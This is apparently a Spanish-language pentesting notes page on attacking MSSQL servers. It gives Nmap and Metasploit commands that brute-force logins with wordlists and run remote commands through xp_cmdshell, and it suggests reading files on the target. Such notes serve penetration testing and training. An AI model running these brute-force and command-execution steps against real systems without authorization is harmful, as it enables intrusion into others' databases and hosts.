 # MsSQL

## Fuerza Bruta

### Nmap

Podemos hacer uso de Nmap para hacerle fuerza bruta a este servicio:

```bash
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Para hacer fuerza bruta usaremos los siguientes modulos:

<pre class="language-perl"><code class="lang-perl"><strong>msfconsole
</strong><strong>
</strong><strong>use auxiliary/scanner/mssql/mssql_login
</strong>
set RHOSTS 192.168.1.1

set USER_FILE /root/Desktop/wordlist/common_users.txt

set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt

set VERBOSE false

exploit
</code></pre>

<figure><img src="../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

## RCE

### Nmap

Podemos hacer un RCE si tenemos credenciales de acceso y los permisos necesarios. Usaremos un script de nmap para ello:

{% hint style="success" %}
Podemos hacer uso del comando "type" para leer archivos de la maquina
{% endhint %}

```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=usuario,mssql.password=contraseña,ms-sql-xp-cmdshell.cmd="whoami" 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Otra de las opciones es hacer el RCE mediante este modulo de metasploit:

```perl
msfconsole

use auxiliary/admin/mssql/mssql_exec

set RHOSTS 10.0.20.101

set CMD whoami

exploit
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>
